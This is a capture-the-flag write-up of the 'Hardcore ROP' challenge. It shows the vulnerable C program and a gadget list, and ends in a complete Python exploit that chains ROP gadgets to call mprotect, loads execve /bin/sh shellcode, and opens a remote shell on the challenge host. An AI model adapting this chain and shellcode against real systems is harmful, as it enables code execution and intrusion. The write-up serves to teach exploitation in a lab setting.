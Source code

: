# Hardcore ROP

Let's take a look at the source:
```c
// PIE, NX, statically linked, with symbols.
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>
#include <time.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define MAPLEN (4096*10)

void randop() {
    munmap((void*)0x0F000000, MAPLEN);
    void *buf = mmap((void*)0x0F000000, MAPLEN, PROT_READ|PROT_WRITE, MAP_ANON|MAP_PRIVATE|MAP_FIXED, 0, 0);
    unsigned seed;
    if(read(0, &seed, 4) != 4) return;
    srand(seed);
    for(int i = 0; i < MAPLEN - 4; i+=3) {
        *(int *)&((char*)buf)[i] = rand();
        if(i%66 == 0) ((char*)buf)[i] = 0xc3;
    }
    mprotect(buf, MAPLEN, PROT_READ|PROT_EXEC);
    puts("ROP time!");
    fflush(stdout);
    size_t x, count = 0;
    do x = read(0, ((char*)&seed)+count, 555-count);
    while(x > 0 && (count += x) < 555 && ((char*)&seed)[count-1] != '\n');
}

int main(int argc, char *argv[]) {
    struct stat st;
    if(argc != 2 || chdir(argv[1]) != 0 || stat("./flag", &st) != 0) {
        puts("oops, problem set up wrong D:");
        fflush(stdout);
        return 1;
    } else {
        puts("yo, what's up?");
        alarm(30); sleep(1);
        randop();
        fflush(stdout);
        return 0;
    }
}
```

Looks like the program creates a buffer at 0x0f000000 with length 40960 (0xa000), and fills it with random bytes, with rets (0xc3) sprinkled in. We also get to supply the random seed, so it stays constant with each run.

Since PIE, ASLR, and NX are enabled, we'll have to ROP using that buffer, since it's the only constant memory address we know.

Trying random seeds to generate good ROP gadgets, we find "quam", which gives us lots of goodies, including a pop/pop/pop/ret, memory dereferencing, and movs.

A list of relevant gadgets:
```
0x0f005489 : (5b5f5f247fd3cac3) pop ebx; pop edi; pop edi; and al,0x7f; ror edx,cl; ret
0x0f003805 : (8b48a27510c3) mov ecx,DWORD PTR [eax-0x5e]; jne 0xf00381a; ret
0x0f006c05 : (5cc3) pop esp; ret
0x0f006827 : (5bc3) pop ebx; ret
0x0f00062f : (5dc3) pop ebp; ret
0x0f003e63 : (58c3) pop eax; ret
0x0f003287 : (59c3) pop ecx; ret
0x0f004ea1 : (5ec3) pop esi; ret
0x0f009af1 : (5fc3) pop edi; ret
0x0f006761 : (5ac3) pop edx; ret
0x0f00860f : (91c3) xchg ecx,eax; ret
0x0f00905f : (93c3) xchg ebx,eax; ret
0x0f007067 : (92c3) xchg edx,eax; ret
0x0f008273 : (95c3) xchg ebp,eax; ret
0x0f00627b : (96c3) xchg esi,eax; ret
0x0f000ffb : (97c3) xchg edi,eax; ret
0x0f00276f : (89e2c3)   mov edx,esp; ret
0x0f0086d4 : (03eac3)   add ebp,edx; ret
0x0f002b90 : (01f5c3)   add ebp,esi; ret
0x0f008f56 : (00ddc3)   add ch,bl; ret
0x0f005721 : (03c447c3) add eax,esp; inc edi; ret
0x0f009503 : (53c3) push ebx; ret
0x0f00141b : (52c3) push edx; ret
0x0f008651 : (50c3) push eax; ret
0x0f0046a3 : (55c3) push ebp; ret
0x0f0022cd : (56c3) push esi; ret
0x0f004307 : (57c3) push edi; ret
0x0f002039 : (51c3) push ecx; ret
0x0f001443 : (89f8c3)   mov eax,edi; ret
0x0f002ecc : (29d6c3)   sub esi,edx; ret
```

Searching around in memory with ASLR in gdb enabled, we find an address that stays constant relative to the binary.

We can load the offset of that location and dereference. After manipulation, we get the addresses of mprotect and read.
We need to call mprotect and make the buffer RWX, then call read to read in our shellcode. We can then return to that, giving us a shell.

The final exploit is below:

```python
import struct
import sys
import socket
import telnetlib
import time

# seed + padding
payload = 'quam' + '\xff\xff\xff\xff\x01\x00\x00\x00'*4

# get memory address
payload += struct.pack("<I", 0x0f003e63) # pop eax
payload += struct.pack("<I", 0xf2)       # offset + 0x5e
payload += struct.pack("<I", 0x0f005721) # add eax,esp; (inc edi)
payload += struct.pack("<I", 0x0f003c2d) # inc ebx
payload += struct.pack("<I", 0x0f003805) # mov ecx,DWORD PTR [eax-0x5e]; (jne 0xf00381a)

# subtract offset
payload += struct.pack("<I", 0x0f00860f) # xchg ecx,eax
payload += struct.pack("<I", 0x0f008273) # xchg ebp,eax
payload += struct.pack("<I", 0x0f006761) # pop edx
payload += struct.pack("<I", 0x139)      # offset
payload += struct.pack("<I", 0x0f0086d4) # add ebp,edx

# call mprotect
payload += struct.pack("<I", 0x0f0046a3) # push ebp
payload += struct.pack("<I", 0x0f005489) # pop ebx; pop edi; pop edi; (and al,0x7f); (ror edx,cl)
payload += struct.pack("<I", 0xf000000)  # buffer
payload += struct.pack("<I", 0xa000)     # length
payload += struct.pack("<I", 0x7)        # rwx

# subtract offset
payload += struct.pack("<I", 0x0f006761) # pop edx
payload += struct.pack("<I", 0x409)      # offset
payload += struct.pack("<I", 0x0f0086d4) # add ebp,edx

# call read
payload += struct.pack("<I", 0x0f0046a3) # push ebp
payload += struct.pack("<I", 0x0f005489) # pop ebx; pop edi; pop edi; (and al,0x7f); (ror edx,cl)
payload += struct.pack("<I", 0x0)        # stdin
payload += struct.pack("<I", 0x0f000000) # location
payload += struct.pack("<I", 0x30)       # length

# call shellcode
payload += struct.pack("<I", 0x0f000000) # shellcode location

# shellcode
shellcode = '\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('vuln2014.picoctf.com', 4000))

f = s.makefile('rw', bufsize=0)
f.write(payload+'\n')
time.sleep(2)
f.write(shellcode)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```